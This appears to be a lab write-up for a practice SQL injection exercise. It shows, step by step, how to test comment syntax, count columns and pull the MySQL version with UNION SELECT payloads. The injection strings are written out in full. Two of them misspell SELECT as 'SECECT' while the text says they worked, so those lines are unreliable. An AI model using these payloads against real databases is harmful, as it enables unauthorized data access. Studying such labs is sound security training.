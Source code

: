 
### SQL injection attack, querying the database type and version on MySQL and Microsoft : PRACTITIONER

---

First need to identify the type of database. Trying the normal `'--` payload doesn't work.

![](./screenshots/lab9-1.png)


Trying the other comment technique with a space after the double dash.
```
'-- -
```
- Since trailing spaces are removed, we need to add a dummy character in the end to keep the space.

![](./screenshots/lab9-2.png)

> Now we know that it is a MySQL database.

We get the number of columns in the output query using the normal `NULL` test.
```
' UNION SELECT NULL, NULL -- -
```
- And it works, therefore, there are only 2 columns in the output query.

Then, to output the database version, we know it is of type string. Therefore, we need to check which columns are of type string.
```
' UNION SECECT 'a', NULL-- -
' UNION SELECT NULL, 'a' -- -
```
- They both work, hence both of these columns are text type string.

To output the database version, use the payload:
```
' UNION SECECT @@version, NULL-- -
```
> And the version is output as expected in a new row.

![DatabaseVersion](./screenshots/version.png)

---
